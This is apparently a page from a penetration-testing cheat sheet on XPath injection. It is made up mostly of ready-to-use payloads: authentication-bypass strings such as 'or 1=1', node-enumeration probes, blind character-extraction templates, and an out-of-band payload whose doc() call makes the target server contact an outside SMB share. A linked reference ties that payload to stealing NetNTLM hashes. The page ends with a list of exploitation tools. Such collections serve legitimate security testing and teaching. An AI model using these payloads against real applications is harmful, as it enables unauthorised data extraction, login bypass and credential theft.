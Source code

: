 # XPATH injection

> XPath Injection is an attack technique used to exploit applications that construct XPath (XML Path Language) queries from user-supplied input to query or navigate XML documents.

## Summary

* [Exploitation](#exploitation)
* [Blind exploitation](#blind-exploitation)
* [Out Of Band Exploitation](#out-of-band-exploitation)
* [Tools](#tools)
* [References](#references)

## Exploitation

Similar to SQL : `"string(//user[name/text()='" +vuln_var1+ "' and password/text()=’" +vuln_var1+ "']/account/text())"`

```sql
' or '1'='1
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*
@*
count(/child::node())
x' or name()='username' or 'x'='y
' and count(/*)=1 and '1'='1
' and count(/@*)=1 and '1'='1
' and count(/comment())=1 and '1'='1
```

## Blind Exploitation

1. Size of a string
    ```sql
    and string-length(account)=SIZE_INT
    ```
2. Extract a character
    ```sql
    substring(//user[userid=5]/username,2,1)=CHAR_HERE
    substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
    ```

## Out Of Band Exploitation

```powershell
http://example.com/?title=Foundation&type=*&rent_days=* and doc('//10.10.10.10/SHARE')
```

## Tools

- [xcat](https://github.com/orf/xcat) - Automate XPath injection attacks to retrieve documents
- [xxxpwn](https://github.com/feakk/xxxpwn) - Advanced XPath Injection Tool 
- [xxxpwn_smart](https://github.com/aayla-secura/xxxpwn_smart) - A fork of xxxpwn using predictive text 
- [xpath-blind-explorer](https://github.com/micsoftvn/xpath-blind-explorer)
- [XmlChor](https://github.com/Harshal35/XMLCHOR) - Xpath injection exploitation tool

## References

* [OWASP XPATH Injection](https://www.owasp.org/index.php/Testing_for_XPath_Injection_(OTG-INPVAL-010))
* [Places of Interest in Stealing NetNTLM Hashes - Osanda Malith Jayathissa - March 24, 2017](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
